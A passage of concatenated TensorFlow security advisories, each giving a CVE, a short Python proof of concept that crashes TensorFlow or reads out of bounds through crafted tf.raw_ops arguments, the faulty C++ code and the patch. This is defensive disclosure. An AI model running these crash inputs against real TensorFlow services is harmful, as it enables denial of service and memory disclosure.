assumes that the 4 arguments are always valid scalars and tries to access the
numeric value directly:

```cc
const float min_x = context->input(2).flat<float>()(0);
const float max_x = context->input(3).flat<float>()(0);
const float min_y = context->input(4).flat<float>()(0);
const float max_y = context->input(5).flat<float>()(0);
```

However, if any of these tensors is empty, then `.flat<T>()` is an empty buffer
and accessing the element at position 0 results in overflow.

### Patches
We have patched the issue in GitHub commit
[efea03b38fb8d3b81762237dc85e579cc5fc6e87](https://github.com/tensorflow/tensorflow/commit/efea03b38fb8d3b81762237dc85e579cc5fc6e87).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Ying Wang and Yakun Zhang of Baidu X-Team.
## TFSA-2021-128: Heap OOB and CHECK fail in `ResourceGather`

### CVE Number
CVE-2021-37654

### Impact
An attacker can trigger a crash via a `CHECK`-fail in debug builds of TensorFlow
using `tf.raw_ops.ResourceGather` or a read from outside the bounds of heap
allocated data in the same API in a release build:

```python
import tensorflow as tf

tensor = tf.constant(value=[[1,2],[3,4],[5,6]],shape=(3,2),dtype=tf.uint32)
v = tf.Variable(tensor)
tf.raw_ops.ResourceGather(
  resource=v.handle,
  indices=[0],
  dtype=tf.uint32,
  batch_dims=10,
  validate_indices=False)
```

The
[implementation](https://github.com/tensorflow/tensorflow/blob/f24faa153ad31a4b51578f8181d3aaab77a1ddeb/tensorflow/core/kernels/resource_variable_ops.cc#L660-L668)
does not check that the `batch_dims` value that the user supplies is less than
the rank of the input tensor.

Since the implementation uses several for loops over the dimensions of `tensor`,
this results in reading data from outside the bounds of heap allocated buffer
backing the tensor:

```cc
    // batch_dims_ = > params.dims() (10 > 2)
    for (int i = 0; i < batch_dims_; ++i) {
      result_shape.AddDim(params.dim_size(i));
    }
    for (int i = batch_dims_; i < indices.dims(); ++i) {
      result_shape.AddDim(indices.dim_size(i));
    }
    for (int i = batch_dims_ + 1; i < params.dims(); ++i) {
      result_shape.AddDim(params.dim_size(i));
    }
```

In debug mode, `.dim_size(i)` validates that the argument is less than `.dims()`
using a `DCHECK`. But the `DCHECK` is a no-op in release builds.

### Patches
We have patched the issue in GitHub commit
[bc9c546ce7015c57c2f15c168b3d9201de679a1d](https://github.com/tensorflow/tensorflow/commit/bc9c546ce7015c57c2f15c168b3d9201de679a1d).

The fix will be included in TensorFlow 2.6.0. We will also cherrypick this
commit on TensorFlow 2.5.1, TensorFlow 2.4.3, and TensorFlow 2.3.4, as these are
also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo
360.
## TFSA-2021-144: Heap OOB in `UpperBound` and `LowerBound`

### CVE Number
CVE-2021-37670

### Impact
An attacker can read from outside of bounds of heap allocated data by sending
specially crafted illegal arguments to `tf.raw_ops.UpperBound`:

```python
import tensorflow as tf

tf.raw_ops.UpperBound(
  sorted_input=[1,2,3],
  values=tf.constant(value=[[0,0,0],[1,1,1],[2,2,2]],dtype=tf.int64),
  out_type=tf.int64)
```

The
[implementation](https://github.com/tensorflow/tensorflow/blob/460e000de3a83278fb00b61a16d161b1964f15f4/tensorflow/core/kernels/searchsorted_op.cc#L85-L104)
does not validate the rank of `sorted_input` argument:

```cc
  void Compute(OpKernelContext* ctx) override {
    const Tensor& sorted_inputs_t = ctx->input(0);
    // ...
    OP_REQUIRES(ctx, sorted_inputs_t.dim_size(0) == values_t.dim_size(0),
                Status(error::INVALID_ARGUMENT,
                       "Leading dim_size of both tensors must match."));
    // ...
    if (output_t->dtype() == DT_INT32) {
      OP_REQUIRES(ctx,
                  FastBoundsCheck(sorted_inputs_t.dim_size(1), ...));
      // ...
    }
```

As we access the first two dimensions of `sorted_inputs_t` tensor, it must have
rank at least 2.

A similar issue occurs in `tf.raw_ops.LowerBound`.

### Patches
We have patched the issue in GitHub commit
[42459e4273c2e47a3232cc16c4f4fff3b3a35c38](https://github.com/tensorflow/tensorflow/commit/42459e4273c2e47a3232cc16c4f4fff3b3a35c38).

The fix will be included in TensorFlow 2.6.0. We will also cherrypick this
commit on TensorFlow 2.5.1, TensorFlow 2.4.3, and TensorFlow 2.3.4, as these are
also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo
360.
## TFSA-2021-058: Heap out of bounds read in `RequantizationRange`

### CVE Number
CVE-2021-29569

### Impact
The implementation of `tf.raw_ops.MaxPoolGradWithArgmax` can cause reads outside
of bounds of heap allocated data if attacker supplies specially crafted inputs:

```python
import tensorflow as tf

input = tf.constant([1], shape=[1], dtype=tf.qint32)
input_max = tf.constant([], dtype=tf.float32)
input_min = tf.constant([], dtype=tf.float32)

tf.raw_ops.RequantizationRange(input=input, input_min=input_min, input_max=input_max)
```

The
[implementation](https://github.com/tensorflow/tensorflow/blob/ac328eaa3870491ababc147822cd04e91a790643/tensorflow/core/kernels/requantization_range_op.cc#L49-L50)
assumes that the `input_min` and `input_max` tensors have at least one element,
as it accesses the first element in two arrays:

```cc
const float input_min_float = ctx->input(1).flat<float>()(0);
const float input_max_float = ctx->input(2).flat<float>()(0);
```

If the tensors are empty, `.flat<T>()` is an empty object, backed by an empty
array. Hence, accesing even the 0th element is a read outside the bounds.

### Patches
We have patched the issue in GitHub commit
[ef0c008ee84bad91ec6725ddc42091e19a30cf0e](https://github.com/tensorflow/tensorflow/commit/ef0c008ee84bad91ec6725ddc42091e19a30cf0e).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Ying Wang and Yakun Zhang of Baidu
X-Team.
## TFSA-2021-134: Division by 0 in inplace operations

### CVE Number
CVE-2021-37660

### Impact
An attacker can cause a floating point exception by calling inplace operations
with crafted arguments that would result in a division by 0:

```python
import tensorflow as tf

tf.raw_ops.InplaceSub(x=[],i=[-99,-1,-1],v=[1,1,1])
```

The
[implementation](https://github.com/tensorflow/tensorflow/blob/84d053187cb80d975ef2b9684d4b61981bca0c41/tensorflow/core/kernels/inplace_ops.cc#L283)
has a logic error: it should skip processing if `x` and `v` are empty but the
code uses `||` instead of `&&`.

### Patches
We have patched the issue in GitHub commit
[e86605c0a336c088b638da02135ea6f9f6753618](https://github.com/tensorflow/tensorflow/commit/e86605c0a336c088b638da02135ea6f9f6753618).

The fix will be included in TensorFlow 2.6.0. We will also cherrypick this
commit on TensorFlow 2.5.1, TensorFlow 2.4.3, and TensorFlow 2.3.4, as these are
also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo
360.
## TFSA-2021-022: `CHECK`-fail in `DrawBoundingBoxes`

### CVE Number
CVE-2021-29533

### Impact
An attacker can trigger a denial of service via a `CHECK` failure by passing an
empty image to `tf.raw_ops.DrawBoundingBoxes`:

```python
import tensorflow as tf

images = tf.fill([53, 0, 48, 1], 0.)
boxes = tf.fill([53, 31, 4], 0.)
boxes = tf.Variable(boxes)
boxes[0, 0, 0].assign(3.90621)
tf.raw_ops.DrawBoundingBoxes(images=images, boxes=boxes)
```

This is because the
[implementation](https://github.com/tensorflow/tensorflow/blob/ea34a18dc3f5c8d80a40ccca1404f343b5d55f91/tensorflow/core/kernels/image/draw_bounding_box_op.cc#L148-L165)
uses `CHECK_*` assertions instead of `OP_REQUIRES` to validate user controlled
inputs. Whereas `OP_REQUIRES` allows returning an error condition back to the
user, the `CHECK_*` macros result in a crash if the condition is false, similar
to `assert`.

```cc
const int64 max_box_row_clamp = std::min<int64>(max_box_row, height - 1);
...
CHECK_GE(max_box_row_clamp, 0);
```

In this case, `height` is 0 from the `images` input. This results in
`max_box_row_clamp` being negative and the assertion being falsified, followed
by aborting program execution.

### Patches
We have patched the issue in GitHub commit
[b432a38fe0e1b4b904a6c222cbce794c39703e87](https://github.com/tensorflow/tensorflow/commit/b432a38fe0e1b4b904a6c222cbce794c39703e87).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang and Ying Wang of Baidu
X-Team.
## TFSA-2021-175: Null pointer exception when `Exit` node is not preceded by `Enter` op

### CVE Number
CVE-2021-41217

### Impact
The [process of building the control flow graph](https://github.com/tensorflow/tensorflow/blob/8d72537c6abf5a44103b57b9c2e22c14f5f49698/tensorflow/core/common_runtime/immutable_executor_state.cc#L284-L346) for a TensorFlow model is vulnerable to a null pointer exception when nodes that should be paired are not:

```python
import tensorflow as tf

@tf.function
def func():
  return tf.raw_ops.Exit(data=[False,False])

func()
```

This occurs because the code assumes that the first node in the pairing (e.g., an `Enter` node) always exists when encountering the second node (e.g., an `Exit` node):

```cc
  ...
} else if (IsExit(curr_node)) {
  // Exit to the parent frame.
  parent = parent_nodes[curr_id];
  frame_name = cf_info->frame_names[parent->id()];
  ...
```

When this is not the case, `parent` is `nullptr` so dereferencing it causes a crash.

### Patches
We have patched the issue in GitHub commit [05cbebd3c6bb8f517a158b0155debb8df79017ff](https://github.com/tensorflow/tensorflow/commit/05cbebd3c6bb8f517a158b0155debb8df79017ff).

The fix will be included in TensorFlow 2.7.0. We will also cherrypick this commit on TensorFlow 2.6.1, TensorFlow 2.5.2, and TensorFlow 2.4.4, as these are also affected and still in supported range.

### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo 360.
## TFSA-2021-200: Crash in `tf.math.segment_*` operations

### CVE Number
CVE-2021-41195

### Impact
The implementation of `tf.math.segment_*` operations results in a `CHECK`-fail related abort (and denial of service) if a segment id in `segment_ids` is large.

```python
import tensorflow as tf

tf.math.segment_max(data=np.ones((1,10,1)), segment_ids=[1676240524292489355])
tf.math.segment_min(data=np.ones((1,10,1)), segment_ids=[1676240524292489355])
tf.math.segment_mean(data=np.ones((1,10,1)), segment_ids=[1676240524292489355])
tf.math.segment_sum(data=np.ones((1,10,1)), segment_ids=[1676240524292489355])
tf.math.segment_prod(data=np.ones((1,10,1)), segment_ids=[1676240524292489355])
```

This is similar to [CVE-2021-29584](https://github.com/tensorflow/tensorflow/blob/3a74f0307236fe206b046689c4d76f57c9b74eee/tensorflow/security/advisory/tfsa-2021-071.md) (and similar other reported vulnerabilities in TensorFlow, localized to specific APIs): the [implementation](https://github.com/tensorflow/tensorflow/blob/dae66e518c88de9c11718cd0f8f40a0b666a90a0/tensorflow/core/kernels/segment_reduction_ops_impl.h) (both on CPU and GPU) computes the output shape using [`AddDim`](https://github.com/tensorflow/tensorflow/blob/0b6b491d21d6a4eb5fbab1cca565bc1e94ca9543/tensorflow/core/framework/tensor_shape.cc#L395-L408). However, if the number of elements in the tensor overflows an `int64_t` value, `AddDim` results in a `CHECK` failure which provokes a `std::abort`. Instead, code should use [`AddDimWithStatus`](https://github.com/tensorflow/tensorflow/blob/0b6b491d21d6a4eb5fbab1cca565bc1e94ca9543/tensorflow/core/framework/tensor_shape.cc#L410-L440).


### Patches
We have patched the issue in GitHub commit [e9c81c1e1a9cd8dd31f4e83676cab61b60658429](https://github.com/tensorflow/tensorflow/commit/e9c81c1e1a9cd8dd31f4e83676cab61b60658429) (merging [#51733](https://github.com/tensorflow/tensorflow/pull/51733)).

The fix will be included in TensorFlow 2.7.0. We will also cherrypick this commit on TensorFlow 2.6.1, TensorFlow 2.5.2, and TensorFlow 2.4.4, as these are also affected and still in supported range.

### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.

### Attribution
This vulnerability has been reported externally via a [GitHub issue](https://github.com/tensorflow/tensorflow/issues/46888).
## TFSA-2021-007: Session operations in eager mode lead to null pointer dereferences

### CVE Number
CVE-2021-29518

### Impact
In eager mode (default in TF 2.0 and later), session operations are invalid.
However, users could still call the raw ops associated with them and trigger a
null pointer dereference:

```python
import tensorflow as tf
tf.raw_ops.GetSessionTensor(handle=['\x12\x1a\x07'],dtype=4)
```
```python
import tensorflow as tf
tf.raw_ops.DeleteSessionTensor(handle=['\x12\x1a\x07'])
```

The
[implementation](https://github.com/tensorflow/tensorflow/blob/eebb96c2830d48597d055d247c0e9aebaea94cd5/tensorflow/core/kernels/session_ops.cc#L104) dereferences the session state pointer without checking if it is valid:

```cc
  OP_REQUIRES_OK(ctx, ctx->session_state()->GetTensor(name, &val));
```

Thus, in eager mode, `ctx->session_state()` is nullptr and the call of the
member function is undefined behavior.

### Patches
We have patched the issue in GitHub commit
[ff70c47a396ef1e3cb73c90513da4f5cb71bebba](https://github.com/tensorflow/tensorflow/commit/ff70c47a396ef1e3cb73c90513da4f5cb71bebba).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo
360.
## TFSA-2021-047: Heap OOB access in unicode ops

### CVE Number
CVE-2021-29559

### Impact
An attacker can access data outside of bounds of heap allocated array in
`tf.raw_ops.UnicodeEncode`:

```python
import tensorflow as tf

input_values = tf.constant([58], shape=[1], dtype=tf.int32)
input_splits = tf.constant([[81, 101, 0]], shape=[3], dtype=tf.int32)
output_encoding = "UTF-8"

tf.raw_ops.UnicodeEncode(
    input_values=input_values, input_splits=input_splits,
    output_encoding=output_encoding)
```

This is because the
[implementation](https://github.com/tensorflow/tensorflow/blob/472c1f12ad9063405737679d4f6bd43094e1d36d/tensorflow/core/kernels/unicode_ops.cc)
assumes that the `input_value`/`input_splits` pair specify a valid sparse
tensor.

### Patches
We have patched the issue in GitHub commit
[51300ba1cc2f487aefec6e6631fef03b0e08b298](https://github.com/tensorflow/tensorflow/commit/51300ba1cc2f487aefec6e6631fef03b0e08b298).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Ying Wang and Yakun Zhang of Baidu
X-Team.
## TFSA-2021-112: Null pointer dereference in `RaggedTensorToTensor`

### CVE Number
CVE-2021-37638

### Impact
Sending invalid argument for `row_partition_types` of
`tf.raw_ops.RaggedTensorToTensor` API results in a null pointer dereference and
undefined behavior:

```python
import tensorflow as tf

tf.raw_ops.RaggedTensorToTensor(
  shape=1,
  values=10,
  default_value=21,
  row_partition_tensors=tf.constant([0,0,0,0]),
  row_partition_types=[])
```

The
[implementation](https://github.com/tensorflow/tensorflow/blob/47a06f40411a69c99f381495f490536972152ac0/tensorflow/core/kernels/ragged_tensor_to_tensor_op.cc#L328)
accesses the first element of a user supplied list of values without validating
that the provided list is not empty.

### Patches
We have patched the issue in GitHub commit
[301ae88b331d37a2a16159b65b255f4f9eb39314](https://github.com/tensorflow/tensorflow/commit/301ae88b331d37a2a16159b65b255f4f9eb39314).

The fix will be included in TensorFlow 2.6.0. We will also cherrypick this
commit on TensorFlow 2.5.1, TensorFlow 2.4.3, and TensorFlow 2.3.4, as these are
also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo
360.
## TFSA-2021-127: Division by 0 in `ResourceGather`

### CVE Number
CVE-2021-37653

### Impact
An attacker can trigger a crash via a floating point exception in
`tf.raw_ops.ResourceGather`:

```python
import tensorflow as tf

tensor = tf.constant(value=[[]],shape=(0,1),dtype=tf.uint32)
v = tf.Variable(tensor)
tf.raw_ops.ResourceGather(
  resource=v.handle,
  indices=[0],
  dtype=tf.uint32,
  batch_dims=1,
  validate_indices=False)
```

The
[implementation](https://github.com/tensorflow/tensorflow/blob/f24faa153ad31a4b51578f8181d3aaab77a1ddeb/tensorflow/core/kernels/resource_variable_ops.cc#L725-L731)
computes the value of a value, `batch_size`, and then divides by it without
checking that this value is not 0.

### Patches
We have patched the issue in GitHub commit
[ac117ee8a8ea57b73d34665cdf00ef3303bc0b11](https://github.com/tensorflow/tensorflow/commit/ac117ee8a8ea57b73d34665cdf00ef3303bc0b11).

The fix will be included in TensorFlow 2.6.0. We will also cherrypick this
commit on TensorFlow 2.5.1, TensorFlow 2.4.3, and TensorFlow 2.3.4, as these are
also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo
360.
## TFSA-2021-087: Division by zero in TFLite's implementation of `Split`

### CVE Number
CVE-2021-29599

### Impact
The implementation of the `Split` TFLite operator is [vulnerable to a
division by zero
error](https://github.com/tensorflow/tensorflow/blob/e2752089ef7ce9bcf3db0ec618ebd23ea119d0c7/tensorflow/lite/kernels/split.cc#L63-L65):

```cc
TF_LITE_ENSURE_MSG(context, input_size % num_splits == 0, "Not an even split");
const int slice_size = input_size / num_splits;
```

An attacker can craft a model such that `num_splits` would be 0.

### Patches
We have patched the issue in GitHub commit
[b22786e7e9b7bdb6a56936ff29cc7e9968d7bc1d](https://github.com/tensorflow/tensorflow/commit/b22786e7e9b7bdb6a56936ff29cc7e9968d7bc1d).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo
360.
## TFSA-2021-091: Integer overflow in TFLite concatenation

### CVE Number
CVE-2021-29601

### Impact
The TFLite implementation of concatenation is [vulnerable to an integer overflow
issue](https://github.com/tensorflow/tensorflow/blob/7b7352a724b690b11bfaae2cd54bc3907daf6285/tensorflow/lite/kernels/concatenation.cc#L70-L76):

```cc
for (int d = 0; d < t0->dims->size; ++d) {
  if (d == axis) {
    sum_axis += t->dims->data[axis];
  } else {
    TF_LITE_ENSURE_EQ(context, t->dims->data[d], t0->dims->data[d]);
  }
}
```

An attacker can craft a model such that the dimensions of one of the
concatenation input overflow the values of `int`. TFLite uses `int` to represent
tensor dimensions, whereas TF uses `int64`. Hence, valid TF models can trigger
an integer overflow when converted to TFLite format.

### Patches
We have patched the issue in GitHub commit
[4253f96a58486ffe84b61c0415bb234a4632ee73](https://github.com/tensorflow/tensorflow/commit/4253f96a58486ffe84b61c0415bb234a4632ee73).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo
360.
## TFSA-2021-169: Heap OOB in `FusedBatchNorm` kernels

### CVE Number
CVE-2021-41223

### Impact
The [implementation](https://github.com/tensorflow/tensorflow/blob/e71b86d47f8bc1816bf54d7bddc4170e47670b97/tensorflow/core/kernels/fused_batch_norm_op.cc#L1292) of `FusedBatchNorm` kernels is vulnerable to a heap OOB:

```python
import tensorflow as tf

tf.raw_ops.FusedBatchNormGrad(
  y_backprop=tf.constant([i for i in range(9)],shape=(1,1,3,3),dtype=tf.float32)
  x=tf.constant([i for i in range(2)],shape=(1,1,1,2),dtype=tf.float32)
  scale=[1,1],
  reserve_space_1=[1,1],
  reserve_space_2=[1,1,1],
  epsilon=1.0,
  data_format='NCHW',
  is_training=True)
```

### Patches
We have patched the issue in GitHub commit [aab9998916c2ffbd8f0592059fad352622f89cda](https://github.com/tensorflow/tensorflow/commit/aab9998916c2ffbd8f0592059fad352622f89cda).

The fix will be included in TensorFlow 2.7.0. We will also cherrypick this commit on TensorFlow 2.6.1, TensorFlow 2.5.2, and TensorFlow 2.4.4, as these are also affected and still in supported range.

### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo 360.
## TFSA-2021-196: Overflow/crash in `tf.tile` when tiling tensor is large

### CVE Number
CVE-2021-41198

### Impact
If `tf.tile` is called with a large input argument then the TensorFlow process will crash due to a `CHECK`-failure caused by an overflow.

```python
import tensorflow as tf
import numpy as np
tf.keras.backend.tile(x=np.ones((1,1,1)), n=[100000000,100000000, 100000000])
```

The number of elements in the output tensor is too much for the `int64_t` type and the overflow is detected via a `CHECK` statement. This aborts the process.

### Patches
We have patched the issue in GitHub commit [9294094df6fea79271778eb7e7ae1bad8b5ef98f](https://github.com/tensorflow/tensorflow/commit/9294094df6fea79271778eb7e7ae1bad8b5ef98f) (merging [#51138](https://github.com/tensorflow/tensorflow/pull/51138)).

The fix will be included in TensorFlow 2.7.0. We will also cherrypick this commit on TensorFlow 2.6.1, TensorFlow 2.5.2, and TensorFlow 2.4.4, as these are also affected and still in supported range.

### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.

### Attribution
This vulnerability has been reported externally via a [GitHub issue](https://github.com/tensorflow/tensorflow/issues/46911).
## TFSA-2020-015: Heap buffer overflow due to invalid splits in RaggedCountSparseOutput

### CVE Number
CVE-2020-15201

### Impact
The `RaggedCountSparseOutput` implementation does not validate that the input
arguments form a valid ragged tensor. In particular, there is no validation that
the values in the `splits` tensor generate a valid partitioning of the `values`
tensor. Hence, this code is prone to [heap buffer
overflow](https://github.com/tensorflow/tensorflow/blob/0e68f4d3295eb0281a517c3662f6698992b7b2cf/tensorflow/core/kernels/count_ops.cc#L248-L251):
```cc
    for (int idx = 0; idx < num_values; ++idx) {
      while (idx >= splits_values(batch_idx)) {
        batch_idx++;
      }
      // ...
    }
```

If `split_values` does not end with a value at least `num_values` then the
`while` loop condition will trigger a read outside of the bounds of
`split_values` once `batch_idx` grows too large.

### Vulnerable Versions
TensorFlow 2.3.0.

### Patches
We have patched the issue in
[3cbb917b4714766030b28eba9fb41bb97ce9ee02](https://github.com/tensorflow/tensorflow/commit/3cbb917b4714766030b28eba9fb41bb97ce9ee02)
and will release a patch release.

We recommend users to upgrade to TensorFlow 2.3.1.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo
360.
## TFSA-2021-070: Heap OOB read in `tf.raw_ops.Dequantize`

### CVE Number
CVE-2021-29582

### Impact
Due to lack of validation in `tf.raw_ops.Dequantize`, an attacker can
trigger a read from outside of bounds of heap allocated data:

```python
import tensorflow as tf

input_tensor=tf.constant(
  [75, 75, 75, 75, -6, -9, -10, -10, -10, -10, -10, -10, -10, -10, -10, -10,\
  -10, -10, -10, -10, -10, -10, -10, -10, -10, -10, -10, -10, -10, -10, -10,\
  -10, -10, -10, -10, -10, -10, -10, -10, -10, -10, -10, -10, -10, -10, -10,\
  -10, -10, -10, -10], shape=[5, 10], dtype=tf.int32)
input_tensor=tf.cast(input_tensor, dtype=tf.quint8)
min_range = tf.constant([-10], shape=[1], dtype=tf.float32)
max_range = tf.constant([24, 758, 758, 758, 758], shape=[5], dtype=tf.float32)

tf.raw_ops.Dequantize(
  input=input_tensor, min_range=min_range, max_range=max_range, mode='SCALED',
  narrow_range=True, axis=0, dtype=tf.dtypes.float32)
```

The
[implementation](https://github.com/tensorflow/tensorflow/blob/26003593aa94b1742f34dc22ce88a1e17776a67d/tensorflow/core/kernels/dequantize_op.cc#L106-L131)
accesses the `min_range` and `max_range` tensors in parallel but fails to check
that they have the same shape:

```cc
if (num_slices == 1) {
  const float min_range = input_min_tensor.flat<float>()(0);
  const float max_range = input_max_tensor.flat<float>()(0);
  DequantizeTensor(ctx, input, min_range, max_range, &float_output);
} else {
  ...
  auto min_ranges = input_min_tensor.vec<float>();
  auto max_ranges = input_max_tensor.vec<float>();
  for (int i = 0; i < num_slices; ++i) {
    DequantizeSlice(ctx->eigen_device<Device>(), ctx,
                    input_tensor.template chip<1>(i), min_ranges(i),
                    max_ranges(i), output_tensor.template chip<1>(i));
    ...
  }
}
```

### Patches
We have patched the issue in GitHub commit
[5899741d0421391ca878da47907b1452f06aaf1b](https://github.com/tensorflow/tensorflow/commit/5899741d0421391ca878da47907b1452f06aaf1b).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang and Ying Wang of Baidu
X-Team.
## TFSA-2021-180: Deadlock in mutually recursive `tf.function` objects

### CVE Number
CVE-2021-41213

### Impact
The [code behind `tf.function` API](https://github.com/tensorflow/tensorflow/blob/8d72537c6abf5a44103b57b9c2e22c14f5f49698/tensorflow/python/eager/def_function.py#L542) can be made to deadlock when two `tf.function` decorated Python functions are mutually recursive:

```python
import tensorflow as tf

@tf.function()
def fun1(num):
    if num == 1:
        return
    print(num)
    fun2(num-1)

@tf.function()
def fun2(num):
    if num == 0:
        return
    print(num)
    fun1(num-1)

fun1(9)
```

This occurs due to using a non-reentrant `Lock` Python object.

Loading any model which contains mutually recursive functions is vulnerable. An attacker can cause denial of service by causing users to load such models and calling a recursive `tf.function`, although this is not a frequent scenario.

### Patches
We have patched the issue in GitHub commit [afac8158d43691661ad083f6dd9e56f327c1dcb7](https://github.com/tensorflow/tensorflow/commit/afac8158d43691661ad083f6dd9e56f327c1dcb7).

The fix will be included in TensorFlow 2.7.0. We will also cherrypick this commit on TensorFlow 2.6.1, TensorFlow 2.5.2, and TensorFlow 2.4.4, as these are also affected and still in supported range.

### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo 360.
## TFSA-2021-114: Integer division by 0 in sparse reshaping

### CVE Number
CVE-2021-37640

### Impact
The implementation of `tf.raw_ops.SparseReshape` can be made to trigger an
integral division by 0 exception:

```python
import tensorflow as tf

tf.raw_ops.SparseReshape(
  input_indices = np.ones((1,3)),
  input_shape = np.array([1,1,0]),
  new_shape = np.array([1,0]))
```

The
[implementation](https://github.com/tensorflow/tensorflow/blob/8d72537c6abf5a44103b57b9c2e22c14f5f49698/tensorflow/core/kernels/reshape_util.cc#L176-L181)
calls the reshaping functor whenever there is at least an index in the input but
does not check that shape of the input or the target shape have both a non-zero
number of elements.

The [reshape
functor](https://github.com/tensorflow/tensorflow/blob/8d72537c6abf5a44103b57b9c2e22c14f5f49698/tensorflow/core/kernels/reshape_util.cc#L40-L78)
blindly divides by the dimensions of the target shape. Hence, if this is not
checked, code will result in a division by 0.

### Patches
We have patched the issue in GitHub commit
[4923de56ec94fff7770df259ab7f2288a74feb41](https://github.com/tensorflow/tensorflow/commit/4923de56ec94fff7770df259ab7f2288a74feb41).

The fix will be included in TensorFlow 2.6.0. We will also cherrypick this
commit on TensorFlow 2.5.1 as this is the other affected version.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo
360.
## TFSA-2021-036: Division by 0 in `QuantizedBatchNormWithGlobalNormalization`

### CVE Number
CVE-2021-29548

### Impact
An attacker can cause a runtime division by zero error and denial of service in
`tf.raw_ops.QuantizedBatchNormWithGlobalNormalization`:

```python
import tensorflow as tf

t = tf.constant([], shape=[0, 0, 0, 0], dtype=tf.quint8)
t_min = tf.constant(-10.0, dtype=tf.float32)
t_max = tf.constant(-10.0, dtype=tf.float32)
m = tf.constant([], shape=[0], dtype=tf.quint8)
m_min = tf.constant(-10.0, dtype=tf.float32)
